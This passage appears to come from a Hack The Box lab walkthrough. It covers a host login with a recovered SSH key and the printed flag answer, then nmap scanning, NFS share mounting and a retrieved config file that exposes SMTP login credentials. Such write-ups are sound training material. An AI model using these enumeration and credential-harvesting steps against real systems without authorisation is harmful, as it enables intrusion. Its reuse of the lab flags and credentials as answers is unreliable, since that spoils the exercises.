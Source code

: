 ```
$ chmod 600 id_rsa
$ ssh -i id_rsa ceil@10.129.18.14
ceil@NIXEASY:~$ find / -name 'flag.txt' 2>/dev/null
/home/flag/flag.txt
ceil@NIXEASY:~$ cat /home/flag/flag.txt
HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}
```

`Answer: HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}`

# Footprinting Lab - Medium
1. Enumerate the target first using nmap:
```
$ sudo nmap -Pn --disable-arp-ping -n <ip>
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```
2. First enumerate the NFS service:
- Show available shares: `$ showmount -e <ip>` -> found /Techsupport
- Mount the share and list files:
```
$ mkdir mnt/techsupport
$ sudo mount -t nfs <ip>:/Techsupport mnt/techsupport -o nolock
$ sudo ls -lah mnt/techsupport
```
-> Found this file with size > 0: `ticket4238791283782.txt`
- Cat the file and retrieve this content:
```
 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15
16    userpass {
17      withUserNameSupport=false
18      sendWelcomeEmail=true
19      enableGravatarSupport=true
20      signupSkipLogin=true
21      tokenDuration=60
22      tokenDeleteInterval=5
23      minimumPasswordLength=8
24      enableTokenJob=true
25      hasher=bcrypt
26      }
27
28     cookie {
29     #       name=id
```